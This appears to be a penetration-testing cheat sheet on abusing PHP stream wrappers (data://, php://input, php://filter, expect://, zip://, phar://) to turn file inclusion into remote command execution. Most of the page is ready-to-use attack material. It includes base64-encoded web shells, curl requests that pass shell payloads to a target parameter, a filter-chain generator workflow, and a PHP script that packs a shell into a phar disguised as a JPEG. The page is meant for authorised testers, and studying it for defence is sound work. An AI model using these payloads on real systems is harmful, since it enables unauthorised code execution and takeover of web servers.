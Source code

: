 # PHP wrappers and streams

::: details data://
The attribute `allow_url_include` must be set. This configuration can be checked in the `php.ini` file.


```bash
# Shell in base64 encoding
echo "<?php system($_GET['cmd']); ?>" | base64

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=data://text/plain;base64,$SHELL_BASE64&cmd=id"
```

:::


::: details php://input
The attribute `allow_url_include` should be set. This configuration can be checked in the `php.ini` file.


```bash
# Testers should make sure to change the $URL
curl --user-agent "PENTEST" -s -X POST --data "<?php system('id'); ?>" "$URL?parameter=php://input"
```

:::


::: details php://filter
The `filter` wrapper doesn't require the `allow_url_include` to be set. This works on default PHP configuration `allow_url_include=off`.


```bash
# Testers should make sure to change the $URL, $FILTERS with the chaining that generates their payload and $FILE with the path to the file they can read.
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE"
```


The [php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py) script (Python3) implements the generation of the PHP filters chaining.


```
# Example: generate <?=`$_GET[cmd]`;;?> (base64 value: PD89YCRfR0VUW2NtZF1gOzs/Pg) using /etc/passwd file to run whoami command on the target.

# Generate the payload 
python3 php_filter_chain_generator.py --chain '<?=`$_GET[cmd]`;;?>'

# Fill variables
FILTERS="convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|[...]|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode"
FILE="/etc/passwd"

# Get RCE on the target
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE&cmd=whoami"
```


Finding a valid path to a file on the target is not required. PHP wrappers like `php://temp` can be used instead.

The research article "[PHP filters chain: What is it and how to use it](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)" from Synacktiv, and [the original writeup](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d), go into the details of that technique.
:::


::: details expect://
The `expect` wrapper doesn't required the `allow_url_include` configuration, the `expect` extension is required instead.

```bash
curl --user-agent "PENTEST" -s "$URL/?parameter=expect://id"
```
:::


::: details zip://
The prerequisite for this method is to be able to [upload a file](../../unrestricted-file-upload.md).


```bash
echo "<?php system($_GET['cmd']); ?>" > payload.php
zip payload.zip payload.php

# Accessing the log file via LFI (the # identifier is URL-encoded)
curl --user-agent "PENTEST" "$URL/?parameter=zip://payload.zip%23payload.php&cmd=id"
```

:::


::: details phar://
The prerequisite for this method is to be able to [upload a file](../../unrestricted-file-upload.md).

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

The tester need to compile this script into a `.phar` file that when called would write a shell called `shell.txt` .

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now the tester has a `phar` file named `shell.jpg` and he can trigger it through the `phar://` wrapper.


```bash
curl --user-agent "PENTEST" "$URL/?parameter=phar://./shell.jpg%2Fshell.txt&cmd=id"
```

:::

